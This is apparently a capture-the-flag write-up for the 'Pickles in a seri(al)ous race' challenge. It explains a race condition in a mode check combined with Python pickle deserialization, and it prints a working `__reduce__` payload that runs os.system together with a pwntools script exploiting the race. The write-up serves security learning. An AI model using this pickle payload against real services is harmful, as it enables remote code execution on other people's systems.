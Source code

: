 # Challenge `Pickles in a seri(al)ous race` Writeup

- Vulnerability:
    - Time-of-check/Time-of-use Race Condition and Remote Code Execution

- Where:
    - `pickle.dumps` and `check_mode` functions

- Impact:
    - Allows Remote Code Execution on the server

## Steps to reproduce

### Step 0: Analyze the source code
This challenge involves gaining access to a file within the server where the script is executed. The script provides users with the ability to generate users and create or view files. Files can be generated in either `CLASSY` or `FREE` mode, and they can only be accessed in the same mode. In `CLASSY` mode, the script uses pickle to serialize and deserialize file content, whereas `FREE` mode stores information in plain text. It's important to note that the pickle library is known to be susceptible to remote code execution.

### Step 1: Create our `__reduce__` function
Since pickle.dumps is exploitable, by implementing `__reduce__` in a class which instances we are going to pickle, we can give the pickling process a callable plus some arguments to run. While intended for reconstructing objects, we can abuse this for getting our own reverse shell code executed.

```python
class RCE:
    def __reduce__(self):
        cmd = ('cat home/ctf/flag')
        return os.system, (cmd,)
    
pickled = pickle.dumps(RCE())
```

### Step 2: Create sessions
The problem is that in `CLASSY_MODE`, the script serializes the Note object instead of user input. To work around this, the payload must be written in `FREE_MODE`, exploiting a race condition in user mode verification to later read in `CLASSY_MODE`.

```python
if not check_mode(FREE_MODE):
    reset(FREE_MODE)
```

Therefore, we first create two sessions (classy an free) with the same user. Then, in the free session, enter the `FREE_MODE` and in the classy enter the `CLASSY_MODE`.

```python
classy = remote(SERVER, PORT)
free = remote(SERVER, PORT)

classy.recvuntil(b'Username: ')
classy.sendline(b'hacker')

free.recvuntil(b'Username: ')
free.sendline(b'hacker')

classy.recvuntil(b'>>> ')
classy.sendline(b'0')
classy.recvuntil(b'>>> ')

free.recvuntil(b'>>> ')
free.sendline(b'1')
```
### Step 3: Get the flag
As the check_mode is confirmed at the start, it's now possible to write the payload to a `FREE_MODE` file and subsequently read it in `CLASSY_MODE` without it being deleted.

```python
free.recvuntil(b'>>> ')
free.sendline(b'1')
free.recvuntil(b'>>> ')
free.sendline(b'1')
free.recvuntil(b'note_name: ')
free.sendline(b"flag")
free.recvuntil(b'note_content: ')
free.sendline(pickled)
free.sendline()
sleep(1)

classy.sendline(b'0')
classy.recvuntil(b'note_name: ')
classy.sendline(b"flag")
print(classy.recvuntil(b'}').decode('utf-8'))
```

At the end, the flag is printed.

Note: The sleep is necessary to ensure that the file is written before it is read.

## Implementation

The full implementation can be found [here](pickles.py).
